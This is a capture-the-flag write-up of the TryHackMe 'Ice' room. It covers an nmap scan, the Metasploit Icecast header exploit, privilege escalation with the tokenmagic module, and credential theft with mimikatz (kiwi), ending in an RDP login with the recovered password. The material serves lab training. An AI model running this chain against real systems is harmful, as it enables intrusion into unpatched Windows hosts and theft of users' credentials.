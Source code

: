```yaml
---
title: THM | Ice
updated: 2023-09-03 15:18:29Z
created: 2023-09-02 16:57:34Z
latitude: 20.90422010
longitude: 74.77489790
altitude: 0.0000
---
```



![76b8f006f45c4a2a4e2048b55dc3b88c.png](../_resources/76b8f006f45c4a2a4e2048b55dc3b88c.png)
Room Link: https://tryhackme.com/room/ice
Date: 02/09/2023
# Recon
## Nmap
```
└─$ nmap -Pn -A 10.10.144.12                             
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-02 12:59 EDT
Nmap scan report for 10.10.144.12
Host is up (0.19s latency).
Not shown: 988 closed tcp ports (conn-refused)
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open                     Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
| rdp-ntlm-info: 
|   Target_Name: DARK-PC
|   NetBIOS_Domain_Name: DARK-PC
|   NetBIOS_Computer_Name: DARK-PC
|   DNS_Domain_Name: Dark-PC
|   DNS_Computer_Name: Dark-PC
|   Product_Version: 6.1.7601
|_  System_Time: 2023-09-02T17:01:01+00:00
|_ssl-date: 2023-09-02T17:01:07+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=Dark-PC
| Not valid before: 2023-09-01T15:24:49
|_Not valid after:  2024-03-02T15:24:49
5357/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Service Unavailable
|_http-server-header: Microsoft-HTTPAPI/2.0
8000/tcp  open  http               Icecast streaming media server
|_http-title: Site doesn't have a title (text/html).
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
49160/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: DARK-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: DARK-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:46:fb:ab:b2:7f (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Dark-PC
|   NetBIOS computer name: DARK-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-09-02T12:01:01-05:00
|_clock-skew: mean: 59m59s, deviation: 2h14m10s, median: 0s
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-09-02T17:01:01
|_  start_date: 2023-09-02T15:24:47
```

## Port 8000 (HTTP)
From our Nmap result we know it's running interesting service called `Icecast streaming media server`. We will look at https://www.cvedetails.com for searching exploit and cve details as instructed in the tryhackme room.
![1f4c7227daf68f4202a977728326634b.png](../_resources/1f4c7227daf68f4202a977728326634b.png)

As metasploit module is available for exploiting this cve, we will open msfconsole:
![4dc81310d946de84f8b3f28ba5bebf69.png](../_resources/4dc81310d946de84f8b3f28ba5bebf69.png)
# Gain Access
We will use the following modules and set the required options: 
```console
msf6 > use exploit/windows/http/icecast_header 
```
 Once we run the exploit, we got the meterpreter session:
 ![de538f635a8845b2d0951ad2f7afa50f.png](../_resources/de538f635a8845b2d0951ad2f7afa50f.png)
 
 # Privilege Escalation
Now that we know the architecture of the process, let's perform some further recon. While this doesn't work the best on x64 machines, let's now run the following command `run post/multi/recon/local_exploit_suggester`.

![a8a80cc70a9db2aa948e09056b1fc475.png](../_resources/a8a80cc70a9db2aa948e09056b1fc475.png)

We tried `exploit/windows/local/bypassuac_eventvwr` as suggested in tryhackme room, but was unsuccessful in creating session.

![4d49d09377e5ac133ac0f1d665b1a5b0.png](../_resources/4d49d09377e5ac133ac0f1d665b1a5b0.png)

Then we tried with `exploit/windows/local/tokenmagic` module and succeeded to gain meterpreter session with elevated privilege.

![599391416afd9df5d571ad35942e4f0f.png](../_resources/599391416afd9df5d571ad35942e4f0f.png)

## Get credentials with mimikatz

Prior to further action, we need to move to a process that actually has the permissions that we need to interact with the lsass service
So, we will migrate to spoolsv.exe as it meet our needs perfectly.

![c43c7426c8d7fb3d9258fa13dfb98b43.png](../_resources/c43c7426c8d7fb3d9258fa13dfb98b43.png)

Next, we will run  `load kiwi` and execute the following command:
![5483640d6794272c3c139015fe6f3efa.png](../_resources/5483640d6794272c3c139015fe6f3efa.png)

In the above image, we can see the see the clear test password for `Dark`

Next we will dump hashes with the following command:
![f856f36318a00959294d5463e059eedb.png](../_resources/f856f36318a00959294d5463e059eedb.png)

Next, We will RDP to the Dark account with `xfreerdp`
```
xfreerdp /u:Dark /p:Password01! /v:10.10.199.95:3389 
```
![eea4a25b8767e11ffdd7498f153d44a9.png](../_resources/eea4a25b8767e11ffdd7498f153d44a9.png)

This conclude the challenge of this room. Hope you enjoyed!